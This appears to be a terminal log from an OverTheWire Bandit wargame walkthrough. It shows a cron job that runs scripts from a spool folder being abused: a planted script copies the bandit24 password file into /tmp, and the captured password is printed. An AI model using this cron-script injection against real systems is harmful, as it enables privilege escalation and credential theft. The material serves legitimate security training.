 

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24.sh
cat: /etc/cron.d/cronjob_bandit24.sh: No such file or directory

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mkdir /tmp/qwer

bandit23@bandit:~$ vim /tmp/qwer/sc.sh
          `#!/bin/bash

          cat /etc/bandit_pass/bandit24 > /tmp/qwer/p`




bandit23@bandit:~$ chmod 777 /tmp/qwer/sc.sh

bandit23@bandit:~$ chmod 777 /tmp/qwer

bandit23@bandit:~$ touch /tmp/qwer/p && chmod 777 /tmp/qwer/p

bandit23@bandit:~$ cp /tmp/qwer/sc.sh /var/spool/bandit24/foo/

bandit23@bandit:~$ cat /tmp/qwer/p
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
